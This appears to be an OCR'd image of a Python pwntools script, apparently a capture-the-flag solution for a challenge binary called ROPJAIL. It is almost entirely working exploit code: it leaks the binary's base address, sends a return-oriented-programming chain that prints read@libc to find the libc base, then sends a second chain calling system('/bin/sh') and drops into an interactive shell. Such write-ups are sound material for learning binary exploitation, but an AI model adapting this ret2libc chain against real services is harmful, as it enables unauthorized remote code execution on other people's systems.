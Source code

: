 ```python
    "pop_r12_r13_r14_r15" : (rop.find_gadget(['pop r12', 'pop r13', 'pop r14', 'pop r15','ret']))[0]
}

# Debugging with breakpoint on vuln function
# gdb.attach(p,'b *vuln+46')

# Functions for packing payload
pack = make_packer('all', endian='big', sign='unsigned')
p64 = make_packer(64, endian='little', sign='unsigned')

# Extract ROPJAIL address
p.recvuntil("here! ")
address_ropjail = p.recvuntil("\n")
address_ropjail = int(address_ropjail.split(b'\n')[0],16)

print("ROPJAIL address :")
print(hex(address_ropjail))

# Retrieve the system address
elf.address = address_ropjail - elf.sym["ROPJAIL"] # Note that the elf base address is updated and so are @got and @plt address

print("SYSTEM address :")
print(hex(elf.address))

p.recvuntil("\n")

# Create payload
payload = pack(0x90)*16                          # offset
payload += p64(elf.address + GADGETS['pop_rdi']) # pop rdi
payload += p64(elf.got['read'])                  # with address of read@got
payload += p64(elf.address + offset_puts_plt)    # launch puts@plt to display read address
payload += p64(elf.sym['main'])                  # launch main again

# Send payload
p.sendline( payload)

# Get read@libc address
address_read = u64(p.recvuntil("\n", drop = True).ljust(8, b"\x00"))
print("READ address :")
print(hex(address_read))

# Retrieve the libc address
print("LIBC address :")
libc.address = address_read - libc.sym["read"]
print(hex(libc.address))

# Second payload
p.recvuntil("JAIL\n")

payload = pack(0x90)*16
payload += p64(elf.address + GADGETS['pop_rdi'])
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(elf.sym['vuln'] + 48)    #ret
payload += p64(libc.sym.system)

# Send payload to get the shell
p.sendline( payload)

# Access to the shell
time.sleep(0.5)
p.interactive()
```